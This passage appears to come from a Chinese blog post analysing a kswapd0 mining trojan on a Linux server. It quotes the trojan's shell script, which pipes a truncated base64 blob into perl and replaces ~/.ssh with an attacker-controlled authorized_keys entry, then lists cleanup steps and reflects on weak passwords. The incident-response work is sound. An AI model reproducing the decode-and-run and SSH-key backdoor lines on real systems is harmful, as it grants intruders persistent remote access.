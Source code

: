 **查看下kswapd0脚本**
```

```
>额，打不开，有大佬指点一下吗？


#### 2.2.4.2 查看 /home/cj/.configrc/b/ 目录
**查看sync脚本**
```
#!/bin/sh
cd /home/cj/.configrc/b
./run
```
>直接调用run脚本。

**查看run脚本**
```
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "yw5Ik......RPKjIhWyJCYEAAPzBJXX0=" | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAB......3K+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```
>原文件字符长度有4w多字，都是一些密钥信息，将不重要的密钥信息删减了大半。该脚本主要就是将公钥写到.ssh文件中，然后就可以控制计算机了。



<br>
# 三、解决
1. `crontab -e`删除木马创建的定时任务。包括/var/spool/cron和/etc/cron.d目录下的定时任务文件也要排查一下。
2. 删除所有木马创建的文件。主要是/tmp/.X25-unix/，cj/.configrc文件和被篡改的.ssh文件。(见<第五章>)
3. 杀死木马创建的所有进程。(见 <第五章>)

**如果该用户不重要，保险起见可以直接删除用户。**
查询所有用户
```
cat /etc/passwd|grep -v nologin|grep -v halt|grep -v shutdown|awk -F":" '{ print $1"|"$3"|"$4 }'|more
```
删除用户及其对应的文件夹
```
userdel -r cj
```

<br>
# 四、分析原因
发现程序是跑在cj用户名下的，那就是我创建的普通用户cj的密码太简单了。最好还是使用密钥进行登陆，密码就那么几位，不保险。

但是为什么会知道我创建的用户名呢，想不明白。破解root用户不是更方便吗？

想起之前的一次Elasticsearch被攻击：部署的ELK集群，用于日志的采集和存储。但是发现每隔几天就会丢失数据，但是并没有人去删除这些日志，后来发现是被攻击了，Meow攻击使用自动脚本扫描开放的不安全的 Elasticsearch 和 MongoDB 数据库，找到之后直接将其删除。

